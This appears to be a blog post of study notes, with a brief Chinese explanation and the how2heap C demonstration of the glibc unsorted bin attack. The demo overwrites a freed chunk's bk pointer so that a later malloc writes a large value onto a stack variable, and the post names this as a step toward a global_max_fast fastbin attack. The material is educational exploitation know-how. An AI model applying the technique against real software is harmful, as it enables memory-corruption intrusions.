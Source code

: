 ```yaml
---
layout: post
title: how2heap 3
slug: how2heap 3
category: Heap Exploitation
published: true
---
```


## unosrted_bin_attack

这种攻击可用于将某个地址的值修改为一个比较大的值，也有用于修改`global_max_fast`后利用fastbin attack的。

```c
int main(){
    fprintf(stderr, "This file demonstrates unsorted bin attack by write a large unsigned long value into stack\n");
    fprintf(stderr, "In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the "
            "global variable global_max_fast in libc for further fastbin attack\n\n");

    // 1
    unsigned long stack_var=0;
    fprintf(stderr, "Let's first look at the target we want to rewrite on stack:\n");
    fprintf(stderr, "%p: %ld\n\n", &stack_var, stack_var);

    unsigned long *p=malloc(400);
    fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",p);
    fprintf(stderr, "And allocate another normal chunk in order to avoid consolidating the top chunk with"
            "the first one during the free()\n\n");
    malloc(500);

    free(p);
    fprintf(stderr, "We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer "
            "point to %p\n",(void*)p[1]);

    //------------VULNERABILITY----------- 2

    p[1]=(unsigned long)(&stack_var-2);
    fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->bk pointer\n");
    fprintf(stderr, "And we write it with the target address-16 (in 32-bits machine, it should be target address-8):%p\n\n",(void*)p[1]);

    //------------------------------------ 3

    malloc(400);
    fprintf(stderr, "Let's malloc again to get the chunk we just free. During this time, the target should have already been "
            "rewritten:\n");
    fprintf(stderr, "%p: %p\n", &stack_var, (void*)stack_var);
}
```
